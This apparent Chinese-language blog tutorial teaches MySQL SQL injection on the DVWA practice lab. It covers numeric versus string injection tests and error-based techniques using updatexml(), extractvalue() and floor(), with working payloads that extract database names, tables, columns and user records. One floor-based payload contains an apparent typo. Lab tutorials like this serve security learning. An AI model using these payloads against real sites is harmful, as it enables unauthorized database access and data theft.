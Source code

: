 # SQL注入篇


# SQL 注入篇

## SQL 注入常用函数

```markdown
1.联合注入函数:
concat()、concat_ws()、group_concat() 2.布尔盲注函数:
length()、left()、right()、substr()、mid()、ascii()、ord() 3.时间盲注函数:
sleep()、if() 4.报错注入函数:
floor()、exp()、updatexml()、extractvalue()
```

## (一)注入类型

SQL 注入通常分为两种类型：数字型和字符型

### **(1)**注入类型为数字型时，SQL 查询语句通常为：

` select * from users where id = x`

判断方法：

```sql
1. ?id = 1 and 1 = 1 --+ 若无报错，继续下一步
2. ?id = 1 and 1 = 2 --+ 若报错， 则注入类型为数字型
```

### **(2)**注入类型为字符型时，SQL 查询语句通常为：

`select * from users where id = '1'`

判断方法：

```sql
1. ?id = 1' and '1' = '1 --+ 若无报错，继续下一步
2. ?id = 1' and '1' = '2 --+ 若报错， 则注入类型为字符型
```

## (二)报错注入

### **一、**SQL 报错注入常用函数：

**updatexml（）**、**extractvalue（）**、**floor（）**

**(1) updatexml（）函数**

- updatexml（）使用不同的 xml 标记匹配和替换 xml 块，用于改变文档中符合条件的节点的值

- 基本语法：`UPDATEXML(xml_target, xpath_expr, new_val)`，`xml_target`是要修改的 XML 类型的数据，`xpath_expr`是一个 XPath 表达式，用于指定要修改的节点位置，`new_val`是一个新的节点值，用于替换当前节点的值

- 若 xpath_string 格式出现错误，mysql 会报出 xpath 语法错误，即（xpath syntax）

- 例如：`select * from users where id = 1 and (updatexml(1,0x7e,3));`0x7e 是字符~，不属于 xpath 语法格式，因此会出现 xpath 语法错误

**(2) extractvalue（）函数**

- extractvalue（）用于从 XML 文档中提取信息

- 基本语法：`ExtractValue(XML_fragment, XPath_string)`，其中`XML_fragment`是 XML 格式的字符串，`XPath_string`是用于定位 XML 文段中特定数据的 XPath 表达式

- 若 xpath_string 格式出现错误，mysql 会报出 xpath 语法错误，即（xpath syntax）

- 例如：`select * from users where id = 1 and (extractvalue(1,0x7e));`

**(3) floor（）函数**

- floor（）利用`select count(*),(floor(rand(0)*2)) as x from 表名 group by x;`导致数据库报错，通过 concat 函数连接注入语句与 floor(rand(0)\*2)函数，实现将注入结果与报错信息回显
- count(\*) 是一个聚合函数，用来计算表中所有行的数量，floor(rand(0)\*2)产生的固定序列为：**01101**，结合 group by 会产生一个虚拟表。
- 原理：rand 伪随机函数与**order by**或**group by**函数的冲突，例如 floor(rand(0)\*2)一开始计算得到了 0，group by 根据 0 分类统计，在写入要返回的虚表时 floor(rand(0)\*2)还要计算一次结果，这次结果却是 1，导致了冲突。

### **二、**updatexml 函数实战（基于 dvwa 靶场）

1.爆数据库和用户名：`1' and updatexml(1,concat(0x7e,database(),0x7e,user()),1)#`

输出结果： ![测试结果](F:\hugoblog\blog\static\images\sql注入篇\1.png)

2.爆当前数据库的表信息：`1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database()),0x7e),1)#`

输出结果： ![测试结果](F:\hugoblog\blog\static\images\sql注入篇\2.png)

3.爆 dvwa 数据库中的 user 表的字段信息：`1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema = 'dvwa' and table_name = 'users'),0x7e),1)#`

输出结果： ![测试结果](F:\hugoblog\blog\static\images\sql注入篇\3.png)

4.爆数据库内容：`1' and updatexml(1,concat(0x7e,(select group_concat(first_name,0x7e,last_name) from dvwa.users),0x7e),1)#`

输出结果： ![测试结果](F:\hugoblog\blog\static\images\sql注入篇\4.png)

### **三、**extractvalue 函数实战（基于 dvwa 靶场）

1.爆数据库和用户名：`1' and extractvalue(1,concat(0x7e,database(),0x7e,user()))#`

输出结果： ![测试结果](F:\hugoblog\blog\static\images\sql注入篇\1.png)

2.爆当前数据库的表信息：`1' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database())))#`

输出结果： ![测试结果](F:\hugoblog\blog\static\images\sql注入篇\2.png)

3.爆 dvwa 数据库中的 user 表的字段信息：`1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema = 'dvwa' and table_name = 'users')))#`

输出结果： ![测试结果](F:\hugoblog\blog\static\images\sql注入篇\3.png)

4.爆数据库内容：`1' and extractvalue(1,concat(0x7e,(select group_concat(first_name,0x7e,last_name) from dvwa.users),0x7e))#`

输出结果： ![测试结果](F:\hugoblog\blog\static\images\sql注入篇\4.png)

### 四、floor 函数实战 (基于 dvwa 靶场)

1.判断是否存在报错注入：`1' union select count(*),floor(rand(0)*2) x from information_schema.tables group by x#`

输出结果： ![测试结果](F:\hugoblog\blog\static\images\sql注入篇\5.png)

确认存在报错注入

2.爆当前数据库名：`1' union select count(*),concat(floor(rand(0)*2),database()) x from information_schema.schemata group by x #`

输出结果： ![测试结果](F:\hugoblog\blog\static\images\sql注入篇\6.png)

可以看到数据库名为 dvwa，1 是随机数

3.爆当前数据库表信息：`1' union select count(*),concat(floor(0)*2,0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database() limit 0,1)) x from information_schema.schemata group by x#`

输出结果： ![测试结果](F:\hugoblog\blog\static\images\sql注入篇\7.png)

4.爆数据库表中字段信息：`1' union select count(*),concat(floor(rand(0)*2),0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users' limit 0,1)) x from information_schema.schemata group by x#`

输出结果：

 <img src="F:\hugoblog\blog\static\images\sql注入篇\8.png" alt="测试结果" style="zoom: 150%;" />

5.爆数据库内容：`1' union select count(*),concat(floor(rand(0)*2),(select group_concat(first_name,last_name) from dvwa.users)) x from information_schema.schemata group by x#`

输出结果： ![测试结果](F:\hugoblog\blog\static\images\sql注入篇\9.png)


---

> 作者: Hinoatari  
> URL: https://hinoatari.github.io/posts/sql%E6%B3%A8%E5%85%A5%E7%AF%87/  

